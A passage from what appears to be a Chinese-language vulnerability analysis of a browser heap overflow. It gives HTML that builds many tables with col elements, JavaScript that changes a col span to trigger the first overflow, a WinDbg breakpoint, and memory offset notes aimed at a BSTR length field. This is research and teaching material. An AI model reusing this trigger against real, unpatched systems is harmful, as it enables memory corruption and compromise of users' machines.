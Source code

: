 <table border="0" cellpadding="0" cellspacing="0" class="syntaxhighlighter  python"><tbody><tr><td class="gutter">1234</td><td class="code"><code class="python plain">&lt;table style</code><code class="python keyword">=</code><code class="python string">"table-layout:fixed"</code> <code class="python plain">&gt;&lt;col </code><code class="python functions">id</code><code class="python keyword">=</code><code class="python string">"0"</code> <code class="python plain">width</code><code class="python keyword">=</code><code class="python string">"41"</code> <code class="python plain">span</code><code class="python keyword">=</code><code class="python string">"9"</code> <code class="python plain">&gt;&amp;nbsp &lt;</code><code class="python keyword">/</code><code class="python plain">col&gt;&lt;</code><code class="python keyword">/</code><code class="python plain">table&gt;</code><code class="python plain">&lt;table style</code><code class="python keyword">=</code><code class="python string">"table-layout:fixed"</code> <code class="python plain">&gt;&lt;col </code><code class="python functions">id</code><code class="python keyword">=</code><code class="python string">"1"</code> <code class="python plain">width</code><code class="python keyword">=</code><code class="python string">"41"</code> <code class="python plain">span</code><code class="python keyword">=</code><code class="python string">"9"</code> <code class="python plain">&gt;&amp;nbsp &lt;</code><code class="python keyword">/</code><code class="python plain">col&gt;&lt;</code><code class="python keyword">/</code><code class="python plain">table&gt;</code><code class="python plain">...</code><code class="python plain">&lt;table style</code><code class="python keyword">=</code><code class="python string">"table-layout:fixed"</code> <code class="python plain">&gt;&lt;col </code><code class="python functions">id</code><code class="python keyword">=</code><code class="python string">"132"</code> <code class="python plain">width</code><code class="python keyword">=</code><code class="python string">"41"</code> <code class="python plain">span</code><code class="python keyword">=</code><code class="python string">"9"</code> <code class="python plain">&gt;&amp;nbsp &lt;</code><code class="python keyword">/</code><code class="python plain">col&gt;&lt;</code><code class="python keyword">/</code><code class="python plain">table&gt;</code></td></tr></tbody></table>

之后通过

<table border="0" cellpadding="0" cellspacing="0" class="syntaxhighlighter  python"><tbody><tr><td class="gutter">12</td><td class="code"><code class="python plain">var obj_col </code><code class="python keyword">=</code> <code class="python plain">document.getElementById(</code><code class="python string">"132"</code><code class="python plain">);</code><code class="python plain">obj_col.span </code><code class="python keyword">=</code> <code class="python value">19</code><code class="python plain">;</code></td></tr></tbody></table>

完成第一次溢出(可通过条件断点`bp 638209A2 ".if(eax==0x13){};.else{gc;}"`断下后再进一步分析)：

 

![](upload/attach/202102/817966_3VQP9HR39A6EZM3.jpg)

 

而写入位置在每次写入过后会加`0x1C`：

 

![](upload/attach/202102/817966_TV2TAHC8PSY3ESQ.jpg)

 

`0x1C`*`0x12`=`0x1F8`(`0x6368CD4B`处是`jl`命令)，`[EBX+9Ch]+0x1F8+0x18`位置恰为`BSTR 'B'`长度：

 

![](upload/attach/202102/817966_5ZASDCQE3W3XA2C.jpg)

 
